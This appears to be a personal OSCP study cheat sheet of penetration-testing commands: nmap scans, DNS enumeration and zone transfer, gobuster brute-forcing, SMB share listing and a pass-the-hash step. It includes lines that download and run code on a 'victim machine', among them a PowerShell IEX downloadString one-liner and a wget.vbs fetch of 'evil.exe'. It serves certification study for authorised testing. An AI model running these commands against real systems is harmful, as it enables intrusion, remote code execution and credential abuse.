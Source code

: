 # OSCP Notes

------------------------------------------------------------

**Recon:**

nmap -sC -sV -oA nmap/"host" <IP>

nmap -Pn -p- --open -v <IP>

nmap --script vuln -p <PORTS> <IP>

**DNS Enumeration:**

host -t ns/mx <domain name.com>

**Forward DNS lookup:**

for name in $(cat list.txt);do
    host $name.DOMAIN.com |grep "has address" |cut -d" " -f1,4
done

**Reverse DNS lookup:**

for ip in $(seq 1 254);do
    host 10.11.1.$ip |grep "domain" |cut -d" " -f1,5
done

**DNS zone Transfer:**

host -l <DOMAIN NAME> <NAME SERVER>


**SMTP User Enumeration:**

See /opt/scripts for vrfy.py

**Directory brute-force:**

gobuster dir -u http:// -w /usr/share/seclist/Discovery/Web-Content/common.txt -t50 (-k to ignore ssl)

gobuster dir -u http:// -w /usr/share/wordlist/dirbuster/directory-list2.3-medium -t50 (-k to ignore ssl)


**File transfer methods:**

cscript wget.vbs(Echo the file to the victim machine) http://10.1.2.111:8000/evil.exe evil.exe

IEX(New-Object Net.Webclient)downloadString(http://x.x.x.x/file)


**SMB**

smbclient -L <IP> # to list shares

smbclient //x.x.x.x/sharename # to log into the share

smbmap -H <IP> # to list shares and display read/write permissions.

**PASS The HASH**

1 .Take the NTLM hash and export it as:

export SMBHASH=<<<<<<<<<<<<<<NTLM HASH HERE>>>>>>>>>>>>>>>>>>

2. run the command:

pth-winexe -U <USER>% //x.x.x.x cmd
    
    




